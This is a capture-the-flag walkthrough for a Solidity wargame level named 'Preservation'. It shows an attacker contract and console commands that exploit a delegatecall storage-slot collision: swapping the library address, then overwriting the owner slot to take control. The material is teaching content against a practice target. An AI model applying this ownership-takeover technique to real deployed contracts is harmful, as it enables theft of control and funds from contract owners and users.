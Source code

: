 # Preservation

**HINT:** Look back at Delegation and Privacy on how data is stored.
<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.6.5;

contract PreservationAttack {
    address slot0;
    address slot1;
    address slot2;
   
 function setTime(uint _time) public {
    slot2 = msg.sender;
  }
}
``` 
Once deployed you can see in th Preservation contract's abi that it has a setFirstTime function that accepts addresses so you can change the address in slot0(timeZone1Library) to your contract address like so:

```js
await contract.setFirstTime('Your_Deployed_Contract_address')
```
Now that slot0(timeZone1Library) is your contract if you call ```.setFirstTime``` again with your player address it will set slot2(Owner) to you, making you the owner now
<br></br>
You can double check you are the owner now with:

```js
await contract.owner()
````